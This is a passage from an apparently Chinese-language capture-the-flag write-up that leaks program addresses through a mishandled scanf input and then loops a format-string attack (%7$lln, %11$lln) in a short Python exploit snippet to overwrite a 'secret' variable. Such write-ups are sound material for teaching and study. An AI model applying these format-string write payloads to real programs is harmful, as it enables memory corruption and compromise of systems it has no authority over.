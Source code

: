 

## 利用输入time泄漏地址

除此之外的难点就在于随机化了，需要泄漏一个程序段内的值；

这时可以发现输入time的那个地方，如果直接输入一个字母，不符合`%ld`的格式，就不会影响栈上的值；

能够直接输出三个原本栈上的值；

输入time泄漏出来的两个地址

![image-20210419213158056](https://static.hack1s.fun/images/2021/04/19/image-20210419213158056.png)

一个是`_start`函数的起始地址，另一个是`initial`函数中间的地址

这两个都在程序的text段中

![image-20210419213315467](https://static.hack1s.fun/images/2021/04/19/image-20210419213315467.png)

通过计算泄漏的这个值在程序本身中的偏移，可以计算出来stdin、stdout、stderr以及secret的位置；



## 循环格式化字符串修改secret

首先输入一堆%p得到字符串本身偏移是8

![image-20210419211319219](https://static.hack1s.fun/images/2021/04/19/image-20210419211319219.png)

运行到`fmt_attack`中的`printf`时可以看到a1的偏移（就是`[rbp-0x40]`）为7

![image-20210419221351935](https://static.hack1s.fun/images/2021/04/19/image-20210419221351935.png)

下面是循环运行格式化字符串攻击，每一次修改掉a1为0，以及修改secret中8字节为0

```python
for i in range(8):
    payload = "%7$lln" + "%11$lln"
    payload = payload.ljust(24,"a")
    # %7用来修改a1为0, %11用来修改secret

    payload = bytes(payload,'ascii')
    payload += p64(secret_addr+i*8)

    io.recvuntil('>>')
    io.sendline('2')
    io.send(payload)
```



![image-20210420211314449](https://static.hack1s.fun/images/2021/04/20/image-20210420211314449.png)

可以看到我们这里确实执行了8次格式化字符串的菜单，这说明修改a1为0成功了


